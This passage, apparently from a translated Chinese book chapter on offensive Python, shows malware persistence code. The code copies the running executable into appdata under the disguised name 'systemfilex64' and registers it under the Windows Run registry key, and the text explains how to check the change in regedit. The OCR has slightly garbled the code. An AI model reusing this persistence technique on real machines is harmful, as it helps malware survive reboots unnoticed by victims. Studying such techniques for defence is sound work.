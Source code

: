 key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

这段代码简单地将`to_save_file`字符串添加到启动注册表中，该字符串包含可执行文件的名称。

要对程序进行修改，你需要以管理员模式运行此可执行文件，因此你可以将前一节中的代码复制并将其添加到此脚本的开头。完整的代码链接如下：

if not os.path.exists(to_save_file):

print("正在变得持久化")

shutil.copyfile(curr_executable, to_save_file)

key = winreg.HKEY_CURRENT_USER

# "Software\Microsoft\Windows\CurrentVersion\Run"

key_value = "Software\\Microsoft\\Windows\\CurrentVersion\\Run"

key_obj = winreg.OpenKey(key, key_value, 0, winreg.KEY_ALL_ACCESS)

winreg.SetValueEx(key_obj, "systemfilex64", 0, winreg.REG_SZ, to_save_file)

winreg.CloseKey(key_obj)

否则：

print("路径不存在")

运行代码后，如果你进入`appdata`文件夹，你将看到以下可执行文件：

![图 9.8 – 当前可执行文件已复制到 appdata 文件夹](img/B14788_09_08.jpg)

图 9.8 – 当前可执行文件已复制到 appdata 文件夹

同样，为了验证 Windows 注册表是否已被修改，可以通过在 Windows 搜索中搜索`regedit`打开注册表编辑器。打开后，前往以下路径：

`"HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Run"`：

![图 9.9 – 编辑后的注册表](img/B14788_09_09.jpg)
